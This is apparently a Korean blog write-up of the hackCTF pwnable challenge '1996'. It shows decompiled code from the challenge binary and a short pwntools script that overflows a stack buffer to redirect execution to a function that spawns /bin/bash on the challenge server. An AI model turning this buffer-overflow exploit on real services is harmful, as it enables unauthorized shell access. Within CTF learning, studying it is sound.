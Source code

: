 ```yaml
---
layout: post
title:  "[hackCTF]1996"
date:   2020-02-18
---
```


hackCTF pwnable 13번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rdx
  __int64 v4; // rax
  __int64 v5; // rdx
  __int64 v6; // rbx
  char *v7; // rax
  __int64 v8; // rdx
  __int64 v9; // rax
  char name; // [rsp+0h] [rbp-410h]

  std::operator<<<std::char_traits<char>>(&_bss_start, "Which environment variable do you want to read? ", envp);
  std::operator>><char,std::char_traits<char>>(&std::cin, &name);
  v4 = std::operator<<<std::char_traits<char>>(&_bss_start, &name, v3);
  v6 = std::operator<<<std::char_traits<char>>(v4, "=", v5);
  v7 = getenv(&name);
  v9 = std::operator<<<std::char_traits<char>>(v6, v7, v8);
  std::ostream::operator<<(v9, &std::endl<char,std::char_traits<char>>);
  return 0;
}
```

## ida - spawn_shell(void)
```c
int spawn_shell(void)
{
  char *argv; // [rsp+0h] [rbp-10h]
  __int64 v2; // [rsp+8h] [rbp-8h]

  argv = "/bin/bash";
  v2 = 0LL;
  return execve("/bin/bash", &argv, 0LL); // 쉘을 띄울 수 있다
}
```

main함수는 문자열을 입력 받아 그 값이 환경변수이면 경로를 출력한다. spawn_shell 함수는 flag를 출력하므로 main 함수의 ret을 spawn_shell의 주소로 덮어 문제를 해결하자.

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3013)

payload = "A"*0x418+p64(0x400897)

p.sendline(payload)

p.interactive()
```

## 결과
![1401](https://drive.google.com/uc?id=1c29YhzXiygH5fvEJk--Dkb5xEoBiBW7d)
